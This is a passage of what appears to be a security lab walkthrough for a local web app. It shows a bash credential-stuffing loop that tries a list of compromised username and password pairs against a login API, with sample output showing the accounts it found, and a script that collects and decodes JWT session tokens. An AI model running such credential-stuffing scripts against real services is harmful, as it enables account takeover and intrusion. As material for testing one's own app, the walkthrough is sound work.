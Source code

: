 ```bash
# Use a list of compromised credentials
cat > credentials.txt << EOF
admin:admin123
john:password123
jane:qwerty
test:test123
EOF

# Test all credentials
while IFS=: read -r username password; do
  echo "Testing $username:$password"
  
  curl -s -X POST http://localhost:3000/api/login \
    -H "Content-Type: application/json" \
    -d "{\"username\":\"$username\",\"password\":\"$password\"}" \
    | jq -r 'select(.success==true) | "FOUND: \(.user.username) - \(.user.role)"'
done < credentials.txt
```

**Result:**
```
Testing admin:admin123
FOUND: admin - admin
Testing john:password123  
FOUND: john.doe - user
Testing jane:qwerty
FOUND: jane.smith - user
```

#### Step 3: Session Token Analysis

```bash
# Generate multiple tokens and analyze patterns
for i in {1..5}; do
  response=$(curl -s -X POST http://localhost:3000/api/login \
    -H "Content-Type: application/json" \
    -d '{"username":"testuser","password":"test123"}')
  
  token=$(echo "$response" | jq -r '.token')
  echo "Token $i: $token"
done

# Decode JWT tokens to analyze
echo "Decoded tokens:"
for i in {1..5}; do
  # JWT tokens are base64 encoded
  # Use jwt.io or jwt-cli to decode
  echo "$token" | cut -d'.' -f2 | base64 -d 2>/dev/null | jq
done
```

**Analysis might reveal:**
```json
{
  "userId": 5,
  "username": "testuser",
  "role": "user",
  "iat": 1696612800,  // Predictable timestamp
  "exp": 1696699200
}
```
